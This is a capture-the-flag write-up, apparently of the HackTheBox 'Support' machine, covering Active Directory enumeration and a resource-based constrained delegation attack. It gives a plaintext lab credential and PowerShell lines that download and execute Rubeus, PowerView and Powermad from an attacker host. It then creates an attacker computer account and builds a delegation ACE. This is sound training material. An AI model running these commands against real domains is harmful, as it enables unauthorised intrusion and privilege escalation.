 Apparently it is common for shared accounts, but Azure makes it really easy to use just-in-time MFA so this issue is really a legacy on-premise issue.

` support : Ironside47pleasure40Watchful `

More positively it is do not trust the tool to be some perfect set of mechanisms to get data.

![](ownedironsider.png)

As stated , but Ippsec does a nice non-verbal "go back to Bloodhound with this info first" - ORIENTATE correctly. Due to being a bit happy with the next couple of steps. I am turn off the video and continue on regardless. Ippsec does the following step entirely remotely, whereas I want more Powershell strugglebus experience first.

![](itriedbutpowershellrytoharden.png)
I tried, but I forgot about `evil-winrm`
![](wowsharpeninghtedgesagain.png)


## Foothold & PrivEsc

GenericAll Abuse - Create a machine account with password and the permission to be *AllowedToActOnBehalfOfOtherIdentity* , then to forge a self-signed a ticket to impersonate a user in the explained  given below by Bloodhound:

Full control of a computer object can be used to perform a resource based constrained delegation attack. Abusing this primitive is currently only possible through the Rubeus project.  First, if an attacker does not control an account with an SPN set, [Kevin Robertson's Powermad project](https://github.com/Kevin-Robertson/Powermad) can be used to add a new attacker-controlled computer account:

Download:
```powershell
PS C:\programdata> curl http://10.10.10.10/Rubeus.exe -o Rubeus.exe
C:\programdata> IEX(New-Object Net.WebClient).downloadString('http://10.10.10.10/PowerView.ps1')
PS C:\programdata> IEX(New-Object Net.WebClient).downloadString('http://10.10.10.10/Powermad.ps1')
# Check if you create machine
Get-DomainObject -Identity 'DC=SUPPORT,DC=HTB' | ms-ds-machineaccountquota
```


```powershell
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
```

PowerView can be used to then retrieve the security identifier (SID) of the newly created computer account:

```powershell
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
```

We now need to build a generic ACE with the attacker-added computer SID as the principal, and get the binary bytes for the new DACL/ACE:

```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```
